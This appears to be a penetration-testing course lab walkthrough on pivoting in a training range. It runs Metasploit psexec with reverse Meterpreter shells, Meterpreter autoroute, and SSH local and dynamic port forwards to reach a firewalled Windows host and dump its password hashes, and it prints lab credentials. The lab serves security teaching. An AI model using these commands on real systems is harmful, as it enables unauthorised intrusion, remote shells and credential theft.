

Lab 4.3: MSF Pivots
Objectives
In this lab, we'll pivot in three different ways.
We'll establish a Metepreter session on the 10.10.10.10 system and then use that session to pivot to the 10.10.10.20 system.
We'll SSH into the 10.10.10.50 system and then use an SSH local port forward to access 10.10.10.20.
Same as #2, but we'll use a dynamic port forward instead.
In each of the scenarios, we'll use a previously compromised system to access the 10.10.10.20 system.
Lab Setup
Ensure that you can ping 10.10.10.10 in the 560 target environment from your Slingshot Linux image.
$ ping 10.10.10.10
Let's check which systems are listening and accessible on TCP port 445 by running the nmap command below:
$ nmap -p 445 10.10.10.10 10.10.10.20
$ nmap -p 445 10.10.10.10 10.10.10.20 Starting Nmap 7.60 ( https://nmap.org ) Nmap scan report for 10.10.10.10 Host is up (0.00043s latency). PORT STATE SERVICE 445/tcp open microsoft-ds Nmap scan report for 10.10.10.20 Host is up (0.00066s latency). PORT STATE SERVICE 445/tcp filtered microsoft-ds
You can see that we can't access TCP port 445 on 10.10.10.20.
Lab – Step-by-Step Instructions
Part 1: Pivoting through an existing Meterpreter session.
Earlier, we saw how psexec can grab hashes from a target Windows machine. Let’s try another approach, still with the same goal of retrieving the hashes from our target, but this time by sending our SMB through some pivots. We are going to use Metasploit’s psexec module to launch our attack over SMB, getting the Meterpreter to run on the target so that we can use it to dump hashes.

First, let's start Metasploit:
$ msfconsole
We'll then set up Metasploit like we did in the previous exercises.
sec560@slingshot:~$ msfconsole
# cowsay++
____________
< metasploit >
------------
\ ,__,
\ (oo)____
(__) )\
||--|| *
=[ metasploit v5.0.34-dev-58e36b6 ]
+ -- --=[ 1902 exploits - 1072 auxiliary - 329 post ]
+ -- --=[ 550 payloads - 44 encoders - 10 nops ]
+ -- --=[ 2 evasion ]
msf5 > use exploit/windows/smb/psexec
msf5 exploit(windows/smb/psexec) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(windows/smb/psexec) > set RHOSTS 10.10.10.10
RHOSTS => 10.10.10.10
msf5 exploit(windows/smb/psexec) > set LHOST YOUR_LINUX_IP_ADDRESS
LHOST => 10.10.75.102
msf5 exploit(windows/smb/psexec) > set SMBUSER administrator
SMBUSER => administrator
msf5 exploit(windows/smb/psexec) > set SMBPASS sansnight
SMBPASS => sansnight
Confirm your settings by running show options:
msf5 exploit(windows/smb/psexec) > show options
Module options (exploit/windows/smb/psexec):
Name Current Setting Required Description
---- --------------- -------- -----------
RHOSTS 10.10.10.10 yes The target address range or
CIDR identifier
RPORT 445 yes The SMB service port (TCP)
SERVICE_DESCRIPTION no Service description to to
be used on target for
pretty listing
SERVICE_DISPLAY_NAME no The service display name
SERVICE_NAME no The service name
SHARE ADMIN$ yes The share to connect to,
can be an admin share
(ADMIN$,C$,...) or a
normal read/write folder
share
SMBDomain . no The Windows domain to use for authentication
SMBPass sansnight no The password for the specified username
SMBUser administrator no The username to authenticate as
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC thread yes Exit technique (Accepted: '', seh,
thread, process, none)
LHOST 10.10.75.102 yes The listen address (an interface
may be specified)
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Automatic
The IP address you use with LHOST will be different than the output above.
Now let's run exploit:
msf5 exploit(windows/smb/psexec) > exploit [*] Started reverse TCP handler on 10.10.75.102:4444 [*] 10.10.10.10:445 - Connecting to the server... [*] 10.10.10.10:445 - Authenticating to 10.10.10.10:445 as user 'administrator'... [*] 10.10.10.10:445 - Selecting PowerShell target [*] 10.10.10.10:445 - Executing the payload... [+] 10.10.10.10:445 - Service start timed out, OK if running a command or non-service executable... [*] Sending stage (179779 bytes) to 10.10.10.10 [*] Meterpreter session 1 opened (10.10.75.102:4444 -> 10.10.10.10:49857) meterpreter >
To set up the pivot, we'll use the post/multi/manage/autoroute module. Type the following command to look at this module:
meterpreter > info post/multi/manage/autoroute
You'll see output like this:
meterpreter > info post/multi/manage/autoroute
Name: Multi Manage Network Route via Meterpreter Session
Module: post/multi/manage/autoroute
Platform:
Arch:
Rank: Normal
... truncated for brevity ...
Description:
This module manages session routing via an existing Meterpreter
session. It enables other modules to 'pivot' through a compromised
host when connecting to the named NETWORK and SUBMASK. Autoadd will
search a session for valid subnets from the routing table and
interface list then add routes to them. Default will add a default
route so that all TCP/IP traffic not specified in the MSF routing
table will be routed through the session when pivoting. See
documentation for more 'info -d' and click 'Knowledge Base'
Module options (post/multi/manage/autoroute):
Name Current Setting Required Description
---- --------------- -------- -----------
CMD autoadd yes Specify the autoroute command (Accepted:
add, autoadd, print, delete, default)
NETMASK 255.255.255.0 no Netmask (IPv4 as "255.255.255.0" or CIDR as "/24"
SESSION yes The session to run this module on.
SUBNET no Subnet (IPv4, for example, 10.10.10.0)
If we omit these options, the module will automatically add routes based on the target's routing table. We will specify a smaller network (SUBNET) and we'll specify the CMD to do ADD instead of autoadd. If we use the default CMD of autoadd, our other options will be ignored.
Note: Do NOT use
CMD=autoaddin this lab! It will not work because your host and the target system are on the same /16 subnet and Meterpreter will not call back correctly.
Run the command below to establish the route:
meterpreter > run post/multi/manage/autoroute SUBNET=10.10.10.0 CMD=add [!] SESSION may not be compatible with this module. [*] Running module against TRINITY [*] Adding a route to 10.10.10.0/255.255.255.0... [+] Route added to subnet 10.10.10.0/255.255.255.0. meterpreter >
You'll see a warning that the session may not be compatible, but it will work fine.
Let's confirm the route is in place by backgrounding our Meterpreter session and then looking at the route table.
meterpreter > background [*] Backgrounding session 1... msf5 exploit(windows/smb/psexec) > route print IPv4 Active Routing Table ========================= Subnet Netmask Gateway ------ ------- ------- 10.10.10.0 255.255.255.0 Session 1 [*] There are currently no IPv6 routes defined. msf5 exploit(windows/smb/psexec) >
Note: Your session number may be different.
Now we need to modify our existing psexec to target 10.10.10.20.
msf5 exploit(windows/smb/psexec) > set RHOST 10.10.10.20 RHOST => 10.10.10.20
Let's confirm our settings by looking at the options:
msf5 exploit(windows/smb/psexec) > show options
Module options (exploit/windows/smb/psexec):
Name Current Setting Required Description
---- --------------- -------- -----------
RHOSTS 10.10.10.20 yes The target address range or
CIDR identifier
RPORT 445 yes The SMB service port (TCP)
SERVICE_DESCRIPTION no Service description to to
be used on target for
pretty listing
SERVICE_DISPLAY_NAME no The service display name
SERVICE_NAME no The service name
SHARE ADMIN$ yes The share to connect to,
can be an admin share
(ADMIN$,C$,...) or a
normal read/write folder
share
SMBDomain . no The Windows domain to use for authentication
SMBPass sansnight no The password for the specified username
SMBUser administrator no The username to authenticate as
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
thread, process, none)
LHOST 10.10.75.102 yes The listen address (an interface
may be specified)
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Automatic
Note: Your
LHOSTIP address should be that of your Linux system.
Let's launch our exploit:
msf5 exploit(windows/smb/psexec) > exploit [*] Started reverse TCP handler on 10.10.75.102:6789 [*] 10.10.10.20:445 - Connecting to the server... [*] 10.10.10.20:445 - Authenticating to 10.10.10.20:445 as user 'administrator'... [*] 10.10.10.20:445 - Selecting PowerShell target [*] 10.10.10.20:445 - Executing the payload... [+] 10.10.10.20:445 - Service start timed out, OK if running a command or non-service executable... [*] Sending stage (179779 bytes) to 10.10.10.20 [*] Meterpreter session 2 opened (10.10.75.102:6789 -> 10.10.10.20:49664) meterpreter >
We can confirm we are on the new system by running sysinfo and ipconfig:
meterpreter > sysinfo Computer : MORPHEUS OS : Windows 2012 R2 (Build 9600). Architecture : x64 System Language : en_US Domain : SEC560 Logged On Users : 5 Meterpreter : x86/windows meterpreter > ipconfig ... truncated for brevity ... Interface 12 ============ Name : Intel(R) 82574L Gigabit Network Connection Hardware MAC : 00:0c:29:1b:1d:15 MTU : 1500 IPv4 Address : 10.10.10.20 IPv4 Netmask : 255.255.0.0 ... truncated for brevity ... meterpreter >
We can then perform any actions we like on this target system, including dumping hashes:
meterpreter > run post/windows/gather/smart_hashdump [*] Running module against MORPHEUS [*] Hashes will be saved to the database if one is connected. [+] Hashes will be saved in loot in JtR password file format to: [*] /home/sec560/.msf4/loot/20190707214747_default_10.10.10.20_windows.hashes_511095.txt [*] Dumping password hashes... [*] Running as SYSTEM extracting hashes from registry [*] Obtaining the boot key... [*] Calculating the hboot key using SYSKEY 483ab4e0518d8e0a7a80c5220a07a6d4... [*] Obtaining the user list and keys... [*] Decrypting user keys... [*] Dumping password hints... [+] Falken:" " [+] Mike:" " [+] Monk:" " [+] Skodo:" " [+] Susan:" " [+] George:" " [*] Dumping password hashes... [+] Administrator:500:4be2829baf305d82f3e07e41f962af91:dcf43450e79b44919d6d4358b7871541::: [+] Mike:1002:bb2493b09f6ecfc9aad3b435b51404ee:c0bb120391d5367712cc4c92389bfa21::: [+] Monk:1003:af83dbf0052ee4717584248b8d2c9f9e:a65c3da63fdb6ca22c172b13169d62a5::: [+] Skodo:1004:33d58472247e80dbaad3b435b51404ee:5a7cae5bd6f7d3f44d4a82ed9ecd1720::: [+] Susan:1005:e52cac67419a9a2236077a718ccdf409:5f946a12c3ebe8640c7c382616045332::: [+] George:1006:8ece4a2d07417e32aad3b435b51404ee:f9a2d4b1ede1eca53a56356d77fd7b45:::
We just used an existing Meterpreter session as a pivot to exploit another system!
Now let's do the same thing, but a different way; next up, SSH Port Forwarding.
Part 2: Pivoting with SSH Local Port Forwarding
Let’s try another approach, still with the same goal of retrieving the hashes from our target, but this time by sending our SMB through a Linux host. In particular, we’ll deploy the Meterpreter through an SSH port forward 10.10.10.50 system. Let's hop through SSH.
First, let's kill all our Meterpreter sessions.
If you are in a meterpreter > prompt, type exit:
meterpreter > exit [*] Shutting down Meterpreter... [*] 10.10.10.20 - Meterpreter session 2 closed. Reason: User exit msf5 exploit(windows/smb/psexec) >
Then let's kill all our existing sessions with the -K (capital K) option:
msf5 exploit(windows/smb/psexec) > sessions -K [*] Killing all sessions... msf5 exploit(windows/smb/psexec) >
Now let's set up our SSH tunnel.
Open a new terminal window for the next step!
To set up the SSH port forward, we are going to run the command below in the new terminal window. Use the password joshua.
sec560@slingshot:~$ ssh -L 7777:10.10.10.20:445 falken@10.10.10.50
Your output will look similar to this:
sec560@slingshot:~$ ssh -L 7777:10.10.10.20:445 falken@10.10.10.50 The authenticity of host '10.10.10.50 (10.10.10.50)' can't be established. ECDSA key fingerprint is SHA256:kdi7QI2MAwfD/AjP6laCwnA/3OgMt3vacPIviAjaTKw. Are you sure you want to continue connecting (yes/no)? yes falken@10.10.10.50's password: joshua ... output truncated for brevity ... Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by applicable law. Could not chdir to home directory /home/falken: No such file or directory $
Note: you may be prompted to accept the key fingerprint; if so, type
yes. If you are not prompted, you have already accepted the key once.
The above command will connect to 10.10.10.50 as falken. The falken user is not a privileged account on the Linux system, which makes this attack even more fantastic. The -L option will create a local port forward. TCP port 7777 will be a listener on our Linux host. The traffic will go through the SSH tunnel and then connect from 10.10.10.50 to 10.10.10.20 on TCP port 445.
Switch back to Metasploit and confirm you have these options set:
msf5 > use exploit/windows/smb/psexec msf5 exploit(windows/smb/psexec) > set PAYLOAD windows/meterpreter/reverse_tcp PAYLOAD => windows/meterpreter/reverse_tcp msf5 exploit(windows/smb/psexec) > set LHOST YOUR_LINUX_IP_ADDRESS LHOST => 10.10.75.102 msf5 exploit(windows/smb/psexec) > set SMBUSER administrator SMBUSER => administrator msf5 exploit(windows/smb/psexec) > set SMBPASS sansnight SMBPASS => sansnight
When we set our target, remember we need to target ourselves so we can to through the forwarded port.
msf5 exploit(windows/smb/psexec) > set RHOST 127.0.0.1 RHOST => 127.0.0.1 msf5 exploit(windows/smb/psexec) > set RPORT 7777 LPORT => 7777
Let's confirm our settings by running show options:
msf5 exploit(windows/smb/psexec) > show options
Module options (exploit/windows/smb/psexec):
Name Current Setting Required Description
---- --------------- -------- -----------
RHOSTS 127.0.0.1 yes The target address range or
CIDR identifier
RPORT 7777 yes The SMB service port (TCP)
SERVICE_DESCRIPTION no Service description to to
be used on target for
pretty listing
SERVICE_DISPLAY_NAME no The service display name
SERVICE_NAME no The service name
SHARE ADMIN$ yes The share to connect to,
can be an admin share
(ADMIN$,C$,...) or a
normal read/write folder
share
SMBDomain . no The Windows domain to use for authentication
SMBPass sansnight no The password for the specified username
SMBUser administrator no The username to authenticate as
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC thread yes Exit technique (Accepted: '', seh,
thread, process, none)
LHOST 10.10.75.102 yes The listen address (an interface
may be specified)
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Automatic
Now launch the exploit:
msf5 exploit(windows/smb/psexec) > exploit [*] Started reverse TCP handler on 10.10.75.102:4444 [*] 127.0.0.1:7777 - Connecting to the server... [*] 127.0.0.1:7777 - Authenticating to 127.0.0.1:7777 as user 'administrator'... [*] 127.0.0.1:7777 - Selecting PowerShell target [*] 127.0.0.1:7777 - Executing the payload... [+] 127.0.0.1:7777 - Service start timed out, OK if running a command or non-service executable... [*] Sending stage (179779 bytes) to 10.10.10.20 [*] Meterpreter session 3 opened (10.10.75.102:4444 -> 10.10.10.20:49689) meterpreter >
You'll notice that the session connected through our host (127.0.0.1) on TCP port 7777. The SSH port forwarder is listening on port 7777 and will forward the traffic through the SSH tunnel to the Linux host (10.10.10.50). Since 10.10.10.50 can access 10.10.10.20 on TCP port 445, the payload delivery is successful!
If you like, you can dump the password hashes once again:
meterpreter > run post/windows/gather/smart_hashdump
SSH is very powerful! The port forwarding feature is a nice way to bend around firewalls. The problem with our current setup is that we have to set up a local port forward for every host/port combination. SSH has an even better way and we will use that method next.
Part 3: Pivoting with SSH Dynamic Port Forwarding
Let's kill our Meterpeter session once again.
meterpreter > exit [*] Shutting down Meterpreter... [*] 127.0.0.1 - Meterpreter session 3 closed. Reason: User exit msf5 exploit(windows/smb/psexec) >
We need to change our SSH connection, so let's exit the existing SSH session.
$ exit Connection to 10.10.10.50 closed. sec560@slingshot:~$
Our new SSH session will use the -D option to Dynamically forward ports. Launch the new SSH session by running the following command from the other terminal window:
sec560@slingshot:~$ ssh -D 9999 falken@10.10.10.50 falken@10.10.10.50's password: joshua ... output truncated for brevity ... Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by applicable law. Could not chdir to home directory /home/falken: No such file or directory $
In Metasploit, let's change our targeting information back to the original settings targeting 10.10.10.20 on TCP port 445:
msf5 exploit(windows/smb/psexec) > set RHOST 10.10.10.20 RHOST => 10.10.10.20 msf5 exploit(windows/smb/psexec) > set RPORT 445 RPORT => 445
Once again, let's confirm our settings by running show options:
msf5 exploit(windows/smb/psexec) > show options
Module options (exploit/windows/smb/psexec):
Name Current Setting Required Description
---- --------------- -------- -----------
RHOSTS 10.10.10.20 yes The target address range or
CIDR identifier
RPORT 445 yes The SMB service port (TCP)
SERVICE_DESCRIPTION no Service description to to
be used on target for
pretty listing
SERVICE_DISPLAY_NAME no The service display name
SERVICE_NAME no The service name
SHARE ADMIN$ yes The share to connect to,
can be an admin share
(ADMIN$,C$,...) or a
normal read/write folder
share
SMBDomain . no The Windows domain to use for authentication
SMBPass sansnight no The password for the specified username
SMBUser administrator no The username to authenticate as
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC thread yes Exit technique (Accepted: '', seh,
thread, process, none)
LHOST 10.10.75.102 yes The listen address (an interface
may be specified)
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Automatic
To make Metasploit use the SSH Dynamic Port forward, we need to configure it to use the set Proxies command, as shown below:
msf5 exploit(windows/smb/psexec) > set Proxies socks4:127.0.0.1:9999 Proxies => socks4:127.0.0.1:9999 msf5 exploit(windows/smb/psexec) > set ReverseAllowProxy true ReverseAllowProxy => true
The set ReverseAllowProxy true command tells Metasploit that the reverse connection will be outside of the proxy.
Now run the exploit:
msf5 exploit(windows/smb/psexec) > exploit [*] Started reverse TCP handler on 10.10.75.102:4444 [*] 10.10.10.20:445 - Connecting to the server... [*] 10.10.10.20:445 - Authenticating to 10.10.10.20:445 as user 'administrator'... [*] 10.10.10.20:445 - Selecting PowerShell target [*] 10.10.10.20:445 - Executing the payload... [+] 10.10.10.20:445 - Service start timed out, OK if running a command or non-service executable... [*] Sending stage (179779 bytes) to 10.10.10.20 [*] Meterpreter session 4 opened (10.10.75.102:4444 -> 10.10.10.20:49714) meterpreter >
The beauty of this method is that we don't have to set up multiple local port forwards using the -L option; we can set it once and then hit multiple machines.
Conclusion
In this lab, we’ve seen how we can deploy the Meterpreter through different tunneling mechanisms. We can use an existing Meterpreter session to use one Windows host to access another. Alternatively, we can harness the power of SSH to hop through a Linux system to access a Windows host. No matter how you do it, you can use these techniques to access ports and hosts that are inaccessible from your attacking system.